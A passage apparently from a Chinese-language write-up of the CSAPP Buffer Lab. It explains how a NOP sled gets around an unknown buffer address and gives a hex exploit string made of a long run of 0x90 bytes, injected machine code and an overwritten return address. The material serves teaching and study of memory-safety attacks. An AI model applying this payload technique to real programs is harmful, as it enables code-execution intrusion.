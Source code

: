   还有一个问题，buf的地址不能确定，最后要覆盖的四字节的返回地址就不能确定。

  可以使用nop sled，在构造的代码之前加入nop指令(0x90)，返回到buf中任意地址都可以顺序执行nop指令直到遇到构造的代码

  在0x804921b断，查看eax的值，找到最高的地址填上就完事了

  ```
  90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 b8 b0 b7 f4 67 89 e3 83 c3 28 89 dd 68 3a 8e 04 08 c3 98 33 68 55
  ```

  ![4](https://raw.githubusercontent.com/AiDaiP/images/master/CSAPP-Buffer%20Lab/4.png)